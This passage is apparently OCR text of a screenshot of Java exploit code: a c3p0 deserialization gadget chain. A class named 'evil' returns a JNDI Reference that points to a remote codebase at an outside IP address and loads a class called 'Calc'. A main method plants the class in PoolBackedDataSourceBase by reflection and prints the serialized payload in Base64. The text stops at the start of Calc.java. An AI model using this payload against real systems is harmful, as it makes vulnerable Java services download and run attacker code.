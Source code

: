 ```java  
    public static class evil implements ConnectionPoolDataSource, Referenceable{    
        @Override    
        public Reference getReference() throws NamingException {    
            return new Reference(&#34;Calc&#34;,&#34;Calc&#34;,&#34;http://10.216.7.79:8088/&#34;);    
        }    
    
        @Override    
        public PooledConnection getPooledConnection(String user, String password) throws SQLException {    
            return null;    
        }    
    
        @Override    
        public PooledConnection getPooledConnection() throws SQLException {    
            return null;    
        }    
    
        @Override    
        public PrintWriter getLogWriter() throws SQLException {    
            return null;    
        }    
    
        @Override    
        public void setLogWriter(PrintWriter out) throws SQLException {    
    
        }    
    
        @Override    
        public void setLoginTimeout(int seconds) throws SQLException {    
    
        }    
    
        @Override    
        public int getLoginTimeout() throws SQLException {    
            return 0;    
        }    
    
        @Override    
        public Logger getParentLogger() throws SQLFeatureNotSupportedException {    
            return null;    
        }    
    }    
    public static void main(String[] args) throws Exception{    
        PoolBackedDataSourceBase pds = new PoolBackedDataSourceBase(false);    
        Class cl = Class.forName(&#34;com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase&#34;);    
        Field connectionPoolDataSourceField = cl.getDeclaredField(&#34;connectionPoolDataSource&#34;);    
        connectionPoolDataSourceField.setAccessible(true);    
        connectionPoolDataSourceField.set(pds, new evil());    
    
        ByteArrayOutputStream baos = new ByteArrayOutputStream();    
        ObjectOutputStream oos = new ObjectOutputStream(baos);    
        oos.writeObject(pds);    
        Base64.Encoder encoder = Base64.getEncoder();    
        System.out.println(encoder.encodeToString(baos.toByteArray()));    
    
    }    
}  
```  
Calc.java  
```java  
public class Calc {    
```